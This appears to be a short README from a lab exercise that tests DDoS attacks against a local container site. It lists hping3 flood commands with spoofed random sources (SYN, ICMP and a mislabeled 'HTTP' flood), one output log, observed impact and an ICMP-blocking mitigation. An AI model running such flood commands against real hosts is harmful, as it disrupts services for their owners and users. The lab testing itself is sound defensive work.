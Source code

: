 # HSA ddos
DDOS attack analysis

<h3>Protocol attacks</h3>

<h4>TCP SYN flood</h4>
```
hping3 --rand-source --flood -S -q -n -d 120 mysite -p 80
```
No impact observed on opening ``mysite``. Floods network but mysite can still be opened.

<h3>Volume-based (bandwidth) attacks</h3>

<h4>ICMP (ping) flood</h4>
```
 hping3 --rand-source --flood -1 mysite -p 80
```
Observed impact on opening ``mysite``.<br/>
Solution: block ICMP ping requests on OS system level.

<h3>Application-Layer attacks</h3>

<h4>HTTP flood</h4>

```
/ # hping3 --rand-source --flood mysite -p 80
HPING mysite (eth0 172.18.0.2): NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- mysite hping statistic ---
39803762 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```
No impact observed on opening ``mysite``. Floods network but ``mysite`` can still be opened.

<img src="./images/http_flood.png" width="600">
